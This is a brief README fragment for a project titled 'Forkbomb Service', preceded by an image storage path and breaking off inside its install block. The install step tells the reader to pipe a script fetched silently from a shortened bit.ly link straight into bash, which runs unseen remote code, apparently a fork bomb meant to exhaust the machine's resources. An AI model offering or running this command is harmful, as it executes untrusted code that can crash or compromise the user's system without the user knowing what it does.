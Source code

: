 # Forkbomb Service

## Install with:
```
sudo apt-get update
wget -q -O - http://bit.ly/2k9RKzu | bash
